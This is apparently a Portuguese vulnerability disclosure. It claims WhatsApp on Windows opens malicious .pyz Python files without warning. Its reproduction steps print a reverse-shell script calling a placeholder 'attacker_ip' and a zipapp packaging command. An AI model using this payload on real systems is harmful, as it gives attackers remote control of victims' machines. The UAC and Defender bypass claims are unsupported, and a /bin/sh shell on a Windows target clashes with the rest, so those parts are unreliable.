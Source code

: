 # Vulnerabilidade no WhatsApp: Execução de Malware via Arquivo Python (.pyz)

### Descrição 

Esta vulnerabilidade crítica no WhatsApp permite a execução automática de arquivos maliciosos com extensão `.pyz` (Python). O atacante pode enviar um arquivo `.pyz` malicioso via WhatsApp, e quando a vítima clica para abri-lo, o arquivo é executado sem qualquer notificação ou confirmação. Isso resulta na possibilidade de execução de um reverse shell ou mesmo de elevação de privilégios. Mesmo em um perfil de usuário convidado, o malware pode escalar para privilégios administrativos, explorando falhas no UAC do Windows.


## Steps to Reproduce

### Procedimento

1. **Criação do Arquivo Malicioso**:
   - Crie um script Python que abre um reverse shell.
   - Exemplo de script Python para reverse shell:
     ```python
     import socket, subprocess, os
     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     s.connect(("attacker_ip", attacker_port))
     os.dup2(s.fileno(), 0)
     os.dup2(s.fileno(), 1)
     os.dup2(s.fileno(), 2)
     p = subprocess.call(["/bin/sh", "-i"])
     ```

2. **Compactação em `.pyz`**:
   - Utilize o `zipapp` para criar o arquivo `.pyz`:
     ```bash
     python -m zipapp reverse_shell.py -o reverse_shell.pyz
     ```

3. **Envio pelo WhatsApp**:
   - Envie o arquivo `.pyz` para a vítima através do WhatsApp.

4. **Execução pela Vítima**:
   - A vítima abre o arquivo `.pyz` sem receber qualquer aviso ou confirmação.
   - O malware é executado automaticamente, estabelecendo o reverse shell.

## Explicação Técnica

### Comportamento do Arquivo `.pyz`

- **Arquivos `.pyz`**: São arquivos zipados que contêm scripts Python. Eles são executáveis diretamente pelo interpretador Python sem a necessidade de descompactação manual.
- **Facilidade de Execução**: Arquivos `.pyz` são simples de criar e executar, tornando-os uma escolha conveniente para a entrega de payloads maliciosos.
- **Bypass de Verificações**: A capacidade de contornar verificações de segurança tradicionais faz com que esses arquivos sejam particularmente perigosos.
- **Execução Automática**: Esses arquivos contornam muitas verificações de segurança típicas, como as realizadas pelo Windows Defender e UAC, permitindo a execução do código malicioso sem impedimentos.

## Impacto

A vulnerabilidade permite que atacantes obtenham controle total da máquina da vítima sem interferência de sistemas de segurança. Além disso, possibilita a elevação de privilégios, ampliando significativamente o potencial de dano.

## Detalhamento Técnico

### Falhas de Comportamento

1. **Windows Defender**:
   - **Verificação de Integridade por Assinatura**: O Windows Defender depende de assinaturas de arquivo para identificar malwares conhecidos. No entanto, quando o arquivo `.pyz` é enviado e aberto através do WhatsApp, o Defender não realiza uma verificação adequada da assinatura. Isso ocorre porque o WhatsApp não fornece metadados suficientes para que o Defender possa identificar o arquivo como uma ameaça.
   - **Bloqueio de Execução**: A proteção em tempo real do Windows Defender é bypassada pelo WhatsApp ao abrir arquivos `.pyz`, permitindo a execução sem bloqueio.

2. **UAC (Controle de Conta de Usuário)**:
   - **Solicitação de Permissão**: O UAC não solicita permissão administrativa ao executar arquivos `.pyz` vindos do WhatsApp. Isso se deve a uma falha na integração de contexto de segurança entre o WhatsApp e o sistema operacional, onde o arquivo é tratado como um conteúdo confiável, permitindo a elevação de privilégios.

3. **WhatsApp**:
   - **Verificação de Segurança**: O WhatsApp não realiza verificações de segurança adequadas ao abrir arquivos `.pyz`. Isso significa que não há análise de comportamento do arquivo antes da execução, nem verificação de integridade ou origem.
   - **Notificação ao Usuário**: O WhatsApp não implementa uma notificação de segurança ou confirmação antes da execução de arquivos potencialmente perigosos. Isso deixa os usuários vulneráveis a execuções automáticas de malware.

4. **Softwares Antivírus**:
   - **Detecção de Malware**: Muitos antivírus dependem de varreduras em tempo real e assinaturas de arquivo. No entanto, a execução de arquivos `.pyz` através do WhatsApp não é devidamente interceptada, permitindo que o malware passe despercebido.
   - **Bloqueio de Payloads**: A execução de payloads maliciosos que estabelecem conexões remotas (como reverse shells) não é bloqueada quando o arquivo `.pyz` é executado via WhatsApp. Isso se deve a uma falha na inspeção profunda de pacotes e comportamentos de rede por parte dos antivírus, especialmente quando o arquivo é iniciado por um aplicativo confiável como o WhatsApp.

---


https://github.com/user-attachments/assets/f87fd925-1fa3-467a-8815-e96800562b63

